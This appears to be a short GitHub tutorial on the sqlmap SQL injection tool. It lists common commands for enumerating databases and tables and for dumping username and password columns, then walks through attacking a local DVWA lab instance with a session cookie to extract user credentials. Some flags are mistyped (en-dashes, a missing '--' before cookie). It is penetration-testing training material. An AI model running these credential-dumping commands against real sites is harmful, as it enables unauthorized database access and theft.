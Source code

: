 
## sqlmap

## home page:
http://sqlmap.org/

## Introduction:
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Download:
you can download sqlmap by cloning the Git repository:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## commonly used commands:
sqlmap -u  "url"   //test if the url is injectable with the test level 1  

sqlmap -u  "url"  –dbms mysql –level 3   //destinate that the database is mysql with the test level 3  

sqlmap -u  "url"  –cookie “your cookie” –level 2   //inject with cookie  

sqlmap -u  "url"  –dbms mysql –level 3 –dbs    //search the name of the databases  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" –tables   //search the tables in this database  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –columns    //search the columns in this table  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –C “username,password” –dump  

//dump the data of the column "username" and "password"  


see more you can visit http://www.vuln.cn/1992

## attack dvwa with sql map:
first we try with  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   

```
it doesn't work and the dvwa jump to the homepage, so we need to add the coockie  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"  
cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7" 
```
sqlmap shows that the url is injectable and after several tests we use the command below to get the username and password.  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   
--cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7"--batch -D dvwa -T users -C user,password --dump
```







